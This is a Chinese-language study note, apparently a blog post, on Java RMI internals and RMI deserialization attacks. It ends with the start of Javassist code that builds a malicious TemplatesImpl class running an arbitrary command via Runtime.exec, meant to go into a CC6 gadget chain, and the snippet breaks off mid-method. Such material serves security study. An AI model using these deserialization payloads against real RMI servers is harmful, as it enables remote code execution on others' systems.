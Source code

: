 listen 中的逻辑是先获取到 Endpoint，也就是我们**需要发布出去的 Object 源地址**，包括 host 以及端口信息，然后的 try-catch 块中是先新建一个 Socket 等待后续的连接，然后新建一个线程，如果接收到了连接的请求，就执行线程中的内容，我们继续跟进 New ThreadAction()中的 new AcceptLoop 的内容
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1707795956865-14371d4f-ec3c-49d4-9599-5f4ca503c3c5.png#averageHue=%232f333c&clientId=u1ce45bef-ea98-4&from=paste&height=471&id=udaff31d3&originHeight=707&originWidth=997&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=199619&status=done&style=none&taskId=u0cf02ac7-e940-4800-8c9e-f6d64e765ca&title=&width=664.6666666666666)
run 里面继续跟进 `executeAcceptLoop()`
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1707796133032-f0657842-9db5-435c-a3e0-a95f3a42a4eb.png#averageHue=%232f343c&clientId=u1ce45bef-ea98-4&from=paste&height=501&id=ub3785b57&originHeight=752&originWidth=1025&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=225310&status=done&style=none&taskId=u201b6491-9473-46c9-8149-769f869aec2&title=&width=683.3333333333334)
这里的内容就比较多了，他关键的一个步骤是会随机给我们发布出去的源地址分配一个端口号，这也是实现远程对象和注册中心（制定了端口就不会）的基本表现形式，也就是随机分配到一个端口上，能够访问到
这里全部执行完毕之后，我们的会多一个变量 port，如果这里是远程对象的发布，他会随机，但是我们这里跟进指定端口的注册中心的发布，所以是固定的 1099
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1707796323246-7589242b-d30b-43da-b62a-99188ff70d8c.png#averageHue=%23292e35&clientId=u1ce45bef-ea98-4&from=paste&height=186&id=ufaed6131&originHeight=279&originWidth=707&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=90605&status=done&style=none&taskId=u6e4d8df3-8b8c-4e99-874f-025d81ff823&title=&width=471.3333333333333)
发布成功之后就是将我们当前封装的 Target 存入一个 HashTable 中，因为之后的服务实现都必须要有网络代理类和相应的功能类，Target 中就封装了这些东西，到时候实现功能的时候的就是根据其键值来取
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1707796388851-bf05aed8-571d-4d7d-904c-c8d281a07f0d.png#averageHue=%234b5062&clientId=u1ce45bef-ea98-4&from=paste&height=123&id=udc2ab5b5&originHeight=184&originWidth=1417&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=76469&status=done&style=none&taskId=u0cb4e159-6836-4b37-a314-7f0bdc0482b&title=&width=944.6666666666666)

然后后面的流程就是服务端处理经由注册中心之手接收到的客户端发送过来的请求信息了，过程就不重复了
还有一个客户端通过 localRegistry 的 getRegistry 方法创建 Stub 的流程，这里简略记录一下：新开一个线程，开放一个网络端口的监听，接受到请求之后，会自动往下走线程的 Run 方法，里面调用了 Skel 的 dispatch，然后才能走服务端的处理逻辑，只不过这个 dispatch 进不去，只能静态调用

## 3.RMI 攻击流程分析
请注意，自 jdk8u121 之后单独关于 RMI 的漏洞攻击都基本修复完毕了，一般是与后面复习的漏洞进行组合拳攻击  
其次，RMI 三端其实都存在相互攻击的可能，并且我个人感觉可以衍生出更多的方面，比如反制之类，这里仅讨论 RMI Client 对 Server 端，Client 对 Registry 端，Client 本身进行记录和 note

上面铺垫了一些基础知识，主要是 RMI 三个部分：客户端 注册中心 服务端的通信，以及各自的功能实现。 简单一点，其实就只有 Registry 端，以及使用 Registry 端的地方，因为 Registry 端本身的功能只负责传递和引用，相当于数据的中转站，它自己并没有任何的实际调用，所以我们才对注册服务的一端叫做服务端，使用服务的叫做客户端
还有一点，我们上面流程中，我们调用功能（bind，lookup 等）时，一个环节的结束，总是伴随着 writeObject，将结果的序列化数据写入数据流，整个过程的数据传输都是通过序列化数据实现的，那也就是说，我们三端都是存在攻击可能的
首先先看 Server 端
### 0x01 攻击对象为 Server
#### 1x01 恶意参数攻击
该项攻击的前提是目标服务器上存在 CC 依赖或者 CB 依赖才能够进一步攻击扩展
如果是 Client 端对 Server 端进行攻击，单指**远程方法调用**这一块，可以回顾 2-0x03 段的内容，这里的重点是客户端传入的远程调用方法的参数进行反序列化，最终利用点在 UnicastServerRef 的 dispatch 方法的下面部分的代码， unmarshalValue 会对参数进行反序列化
![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1707810669281-949824cb-10d7-4ca0-9e48-5cfece9b24c4.png#averageHue=%232f343d&clientId=u1ce45bef-ea98-4&from=paste&height=163&id=u9ebaf904&originHeight=244&originWidth=1153&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=79393&status=done&style=none&taskId=u06437340-c80c-480f-bfa8-a2abdda9bbe&title=&width=768.6666666666666)
所以这里我们可以传入恶意序列化数据，比如说 CC6 或者 CC11 等都是可以的
这里结合一下 Javassist 复习，写一个更加 恶意类更短的 CC6
先写恶意类的字节码
```java
import javassist.*;

public class EvilClassWrite {
    public static byte[] GetShortTemplatesImpl(String cmd) {

        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("Evil");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("        try {\n" +
                    "            Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                    "        } catch (Exception ignored) {\n" +
                    "        }");
            CtMethod ctMethod1 = CtMethod.make("    public void transform(" +
                    "com.sun.org.apache.xalan.internal.xsltc.DOM document, " +
                    "com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) {\n" +
                    "    }", ctClass);
            ctClass.addMethod(ctMethod1);
            CtMethod ctMethod2 = CtMethod.make("    public void transform(" +
                    "com.sun.org.apache.xalan.internal.xsltc.DOM document, " +
```